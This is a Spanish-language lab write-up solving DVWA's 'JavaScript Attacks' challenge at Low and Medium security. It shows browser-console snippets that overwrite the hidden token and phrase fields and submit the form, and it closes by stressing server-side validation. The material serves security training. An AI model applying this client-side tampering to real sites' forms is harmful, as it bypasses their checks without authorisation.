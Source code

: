 # JavaScript Attacks - DVWA

## Nivel de seguridad: Low

En este nivel se nos pide enviar la palabra `success` a través de un formulario. Sin embargo, al inspeccionar el código fuente o utilizar la consola del navegador, descubrimos que también se envía un **token**.

Podemos observar directamente los valores correctos desde el navegador, utilizando la consola de desarrollador (DevTools).

### Comandos ejecutados:
```js
document.querySelector('[name=phrase]').value = 'success';
document.querySelector('[name=token]').value = '38581812b435834ebf84ebcc2c6424d6';
document.forms[0].submit();
```

![JavaScript - Low](assets/JavaScript_low.png)

Esto establece manualmente los valores requeridos para que el servidor acepte el envío y muestra el mensaje "**Well done!**".

---

## Nivel de seguridad: Medium

En este nivel, el valor del token **no es un hash**, sino una cadena construida según una lógica simple: 
> `token = "XX" + reverse(phrase) + "XX"`

### Comandos ejecutados:
```js
const phrase = 'success';
const token = [...("XX" + phrase + "XX")].reverse().join('');

// token === "XXsseccusXX"

document.querySelector('[name=phrase]').value = phrase;
document.querySelector('[name=token]').value = token;
document.forms[0].submit();
```

![JavaScript - Medium](assets/JavaScript_medium.png)

Este código en la consola permite calcular y aplicar el token correcto automáticamente, haciendo que el servidor valide la petición.

---

## Comentario final

Este ejercicio demuestra la importancia de **no confiar en la validación del lado del cliente**. Cualquier lógica implementada en JavaScript puede ser inspeccionada, replicada o manipulada directamente desde la consola del navegador. Para proteger una aplicación, **la validación debe implementarse siempre del lado del servidor**.